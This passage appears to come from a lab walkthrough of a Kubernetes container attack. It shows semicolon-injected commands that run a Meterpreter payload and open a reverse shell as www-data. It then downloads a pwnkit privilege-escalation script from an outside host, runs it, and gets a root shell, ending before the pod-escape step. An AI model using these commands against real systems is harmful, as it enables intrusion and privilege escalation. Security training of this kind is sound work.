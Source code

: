 Change the permissions to make the script executable

```bash
;chmod 777 /tmp/met
```

Execute the script

```bash
;/tmp/met
```

Now you have a reverse meterpreter session from the container, to get a shell type `shell`

```bash
meterpreter > shell
Process 321 created.
Channel 1 created.
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

You have a shell and are the `www-data` user.

### Escalate Privileges on the container

Now you need do the privilege escalation within the container to gain root. In the terminal where the container listener and run the following commands:

```bash
cd /tmp
```

Download the `priv-es` script to `/tmp`

```bash
curl -vkO https://pwnkit.s3.amazonaws.com/priv-es
```

Make the script executable:

```bash
chmod a+x ./priv-es
```

Execute the script

```bash
./priv-es
python2.7 -c 'import os; os.setuid(0); os.system("/bin/sh")'
```

Show that you are now root on the container

```bash
id
uid=0(root) gid=0(root) groups=0(root),33(www-data)
```

### Gain access to worker nodes (Escaping the pod and getting a shell on the worker node)
